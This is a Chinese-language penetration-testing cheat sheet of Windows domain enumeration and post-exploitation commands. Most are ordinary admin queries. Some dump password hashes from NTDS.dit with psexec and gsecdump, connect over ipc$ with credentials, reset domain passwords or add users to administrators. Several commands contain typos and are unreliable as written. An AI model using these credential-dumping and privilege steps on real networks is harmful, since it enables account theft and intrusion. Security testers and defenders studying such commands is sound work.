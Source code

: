 ## 常见命令

### 基本命令

```
net group /domain                       //获得所有域用户组列表
net group qq_group /domain              //显示域中qq_group组的成员
net group qq_group /del /domain         //删除域中qq_group组
net group qq_group qq /del /domain      //删除域内qq_group 群组中的成员QQ
net group qq_group /add /domain         //增加域中的群组
net group 'domain admins' /domain       //获得域管理员列表
net group 'enterprise admins' /domain    //获得企业管理员列表
net localgroup administrators /domain   //获取域内置administrators组用（enterprise admins、domain admins）
net group 'domain controllers' /domain   //获得域控制器列表
net group 'domain computers' /domain    //获得所有域成员计算机列表
net user /domain                       //获得所有域用户列表
net user someuser /domain              //获得指定账户someuser的详细信息
net accounts /domain               //获得域密码策略设置，密码长短，错误锁定等信息
nei view /domain                  //查询有几个域, 查询域列表
net view /domain:testdomain       //查看 testdomain域中的计算机列表
nltest /domain_trusts             //获取域信任信息
net user domain-admin /domain     //查看管理员登陆时间，密码过期时间，是否有登陆脚本，组分配等信息
net config Workstation         //查询机器属于哪个域
net time /domian               //查询主域服务器的时间
echo %logonserver%              //查看登陆到这台服务器的计算机名
net time  \\192.168.1.1         //查询远程共享主机192.168.1.1的时间
net use \\IP\ipc$ password /user:username@domain     //ipc$域内连接
net  view  \\dc2.backlion.com         //查看域控共享情况
dir \\dc2.backlion.com\SYSVOL /s /a > sysvol.txt  //列出sysvol日志记录
xcopy \\dc2.backlion.com\sysvol.txt sysvol.txt  /i  /e  /c//远程拷贝到本地sysvol日志
net user  /domain  bk bk123                 //修改域内用户密码，需要管理员权限
net  localgroup  administartors   SEZKL\backlion  /add     //将SEZKL域中的用户backlion添加到administrators组中
mstsc /admin                 //远程桌面登录到console会话解决hash无法抓出问题
gpupdate/force                  //更新域策略
psexec  \\192.168.1.3  -u administrator  -p  bk1234 -c  gsecdump.exe  -u
  //从域服务器密码存储文件windows/ntds/ntds.dit导出hash值出来
gsecdump  -a        //获取域登管理员登录过得hash值，这里gescdump为第三方导出AD域的hash值
tasklist /S ip /U domain\username /P /V    //查看远程计算机进程列
```

### 基本渗透命令

```
ipconfig/all    //查看IP地址
ipconfig /release  //释放地址
ipconfig /renew 重新获取Ip地址
whoami    //查询账号所属权限
whoami/all  //查看sid值
systeminfo  //查询系统以及补丁信息
tasklist /svc   //查看进程
taskkill /im 进程名称(cmd) //结束进程
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
wmic qfe  get hotfixid    //查看已安装过得补丁，这个很实用
wmic qfe list full /format:htable > hotfixes.htm  //详细的补丁安装
wmic  qfe      //查询补丁信息以及微软提供的下载地址
ping hostname(主机名）   //显示该机器名的IP
net start   //查看当前运行的服务
net user      //查看本地组的用户
net localhroup administrators   //查看本机管理员组有哪些用户
net use      //查看会话
net session     //查看当前会话
net share       //查看SMB指向的路径[即共享]
wmic share get name,path   //查看SMB指向的路径
```
